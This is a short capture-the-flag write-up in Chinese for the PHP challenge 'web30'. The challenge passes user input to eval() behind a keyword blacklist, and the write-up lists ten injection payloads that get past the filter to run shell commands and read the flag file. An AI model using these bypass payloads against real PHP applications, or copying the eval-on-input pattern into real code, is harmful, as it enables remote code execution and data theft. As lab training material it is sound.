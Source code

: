 #### web30

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:42:26
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

这里过滤了关键字flag，system还有php，由于过滤了system我们需要使用其他的系统函数进行命令执行

payload:

> 1. c=printf(exec("cat%20fl*"));
>
> 2. c=echo exec("cat f\lag.p\hp");
>
> 3. c=show_source(scandir(".")[2]); (这个函数会返回一个包含当前目录下所有文件和目录项的数组)
>
> 4. c=highlight_file(next(array_reverse(scandir("."))));
>
> 5. c=passthru("tac fla*");
>
> 6. c=echo \`tac fla*\`;
>
> 7. c=$a=sys;$b=tem;$c=$a.$b;$c("tac fla*");*
>
> 8. c=echo shell_exec("tac fla*");
>
> 9. c=eval($_GET[1]);&1=system("tac flag.php");
>
> 10. c=passthru(base64_decode("Y2F0IGZsYWcucGhw=="));(base64绕过)
>
>     ......
